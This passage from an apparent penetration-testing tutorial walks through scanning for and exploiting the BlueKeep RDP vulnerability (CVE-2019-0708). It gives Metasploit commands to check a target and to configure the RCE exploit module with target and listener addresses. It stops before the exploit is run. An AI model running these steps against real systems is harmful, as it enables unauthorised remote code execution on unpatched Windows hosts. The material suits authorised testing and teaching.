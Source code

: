 **Example Output:**

```
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

### Metasploit Vulnerability Checking

```bash
# Start Metasploit
msfconsole

# Search for BlueKeep modules
search bluekeep

# Use the scanner module
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS <TARGET_IP>
run
```

**Vulnerable System Output:**

```
[+] 10.10.10.7:3389    - The target is vulnerable.
```

## Exploitation with Metasploit

### Basic Exploitation Setup

```bash
# Start Metasploit
msfconsole

# Use the BlueKeep exploit module
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

# Configure basic options
set RHOSTS <TARGET_IP>
set LHOST <YOUR_IP>
```

### Target Configuration

```bash
# View available targets
show targets

# Set appropriate target (example for Windows 7 SP1 x64)
set TARGET 2

# Show module options
show options
```
